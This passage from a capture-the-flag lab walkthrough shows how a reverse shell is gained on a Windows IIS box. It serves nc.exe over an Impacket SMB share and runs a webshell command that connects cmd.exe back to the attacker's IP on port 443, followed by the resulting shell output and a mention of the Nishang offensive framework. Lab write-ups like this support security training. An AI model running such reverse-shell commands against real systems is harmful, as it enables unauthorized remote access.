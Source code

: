 Now I’ll start the smb server:

```

root@kali# smbserver.py share smb
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

I’ll also start a `nc` listener on my local box to catch the shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

I’ll enter the following command into the webshell:

```

\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443

```

And I get a shell on my listener:

```

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>

```

Here’s the entire process:

[![](https://0xdfimages.gitlab.io/img/devel-shell.gif)](https://0xdfimages.gitlab.io/img/devel-shell.gif)
*click gif for full size version*

#### Nishang

[Nishang](https://github.com/samratashok/nishang) is a framework of scripts and payloads that enables using PowerShell for offensive security. I’ll show the reverse shell, but there is a ton more stuff in here.

